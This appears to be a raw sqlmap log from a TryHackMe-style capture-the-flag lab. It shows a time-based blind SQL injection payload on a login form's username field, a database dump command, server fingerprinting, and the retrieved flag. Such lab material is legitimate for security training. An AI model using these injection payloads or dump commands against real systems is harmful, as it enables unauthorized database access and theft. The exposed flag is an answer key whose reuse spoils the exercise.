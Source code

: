 ```
sqlmap -r 1.txt --batch --dump -D THM_f0und_m3 -T nothing_inside
        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.6.7#stable}
|_ -| . ["]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:25:48 /2022-09-04/

[21:25:48] [INFO] parsing HTTP request from '1.txt'
[21:25:48] [INFO] resuming back-end DBMS 'mysql'
[21:25:48] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 1720 FROM (SELECT(SLEEP(5)))imDO) AND 'CRGb'='CRGb&password=test&submit=submit
---
[21:25:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 13.04 or 12.10 or 12.04 (Quantal Quetzal or Raring Ringtail or Precise Pangolin)
web application technology: PHP 5.3.10, Apache 2.2.22
back-end DBMS: MySQL >= 5.0.12
[21:25:49] [INFO] fetching columns for table 'nothing_inside' in database 'THM_f0und_m3'
[21:25:49] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
[21:26:05] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
1
[21:26:13] [INFO] retrieved:
[21:26:27] [INFO] adjusting time delay to 3 seconds due to good response times
Easter_4
[21:28:07] [INFO] fetching entries for table 'nothing_inside' in database 'THM_f0und_m3'
[21:28:07] [INFO] fetching number of entries for table 'nothing_inside' in database 'THM_f0und_m3'
[21:28:07] [INFO] retrieved: 1
[21:28:14] [WARNING] (case) time-based comparison requires reset of statistical model, please wait.............................. (done)
THM{1nj3c7_l1k3_4_b055}
Database: THM_f0und_m3
Table: nothing_inside
[1 entry]
+-------------------------+
| Easter_4                |
+-------------------------+
| THM{1nj3c7_l1k3_4_b055} |
+-------------------------+

[21:34:22] [INFO] table 'THM_f0und_m3.nothing_inside' dumped to CSV file '/root/.local/share/sqlmap/output/ip.thm/dump/THM_f0und_m3/nothing_inside.csv'
[21:34:22] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/ip.thm'

[*] ending @ 21:34:22 /2022-09-04/
```